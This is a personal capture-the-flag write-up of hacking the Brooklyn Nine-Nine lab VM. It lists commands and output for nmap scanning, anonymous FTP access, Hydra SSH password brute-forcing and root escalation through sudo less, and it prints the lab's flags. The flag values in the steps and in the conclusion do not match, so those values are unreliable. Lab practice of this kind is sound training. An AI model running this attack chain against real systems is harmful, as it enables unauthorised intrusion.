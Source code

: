 Project: Nine-Nine Hack Challenge
Project Goal: Perform a full penetration test on the Brooklyn Nine-Nine VM, including port scanning, FTP exploitation, SSH password brute-forcing, and privilege escalation to root.

Project Description

In this project, I explored the virtual machine Brooklyn Nine-Nine at IP 10.201.60.152.
My goal was to fully compromise the system, obtain both user and root flags, and document the entire process using my own commands.

This project allowed me to practice:

Nmap scanning for open ports and services

Connecting to FTP with anonymous login and retrieving files

Analyzing retrieved files for potential credentials

Brute-forcing SSH login using Hydra

Exploring home directories and checking user permissions

Privilege escalation via sudo and GTFOBins

Reading user.txt and root.txt flags

Step-by-Step Execution (My Commands and Output)
1️⃣ Nmap Scan
nmap -sC -sV -T4 10.201.60.152


Output showed:

21/tcp open  ftp     vsftpd 3.0.3 (anonymous login allowed)
22/tcp open  ssh     OpenSSH 7.6p1
80/tcp open  http    Apache 2.4.29

2️⃣ FTP Access

I connected to FTP with anonymous credentials:

ftp 10.201.60.152
Username: anonymous
Password: anonymous
ls -la
get note_to_jake.txt
bye
cat note_to_jake.txt


File content revealed a username:

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

3️⃣ SSH Brute-Force

Using Hydra, I brute-forced Jake’s SSH password:

hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.201.60.152 ssh


Found password: 987654321

4️⃣ SSH Login
ssh jake@10.201.60.152
Enter password: 987654321
cd /home
ls


Found users:

amy  holt  jake

5️⃣ Sudo Permissions

I checked sudo capabilities for Jake:

sudo -l


Output:

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

6️⃣ Privilege Escalation

I exploited less to get root:

sudo less /etc/passwd
!bash
whoami


Output confirmed root access:

root

7️⃣ Retrieving Flags

User flag (holt’s home):

cd /home/holt
ls
cat user.txt
ee11cbb19052e40b07aac0ca060c23e


Root flag:

cd /root
ls
cat root.txt
63a9f0ea7bb98050796b649e8548184

Project Conclusion

During this project, I personally executed all the commands, explored the system, exploited services, and elevated privileges.
I successfully retrieved:

User flag: ee11cbb19052e40b07aac0ca060c23ee

Root flag: 63a9f0ea7bb98050796b649e85481845

This project allowed me to apply penetration testing techniques end-to-end and document the process in a professional, step-by-step manner.
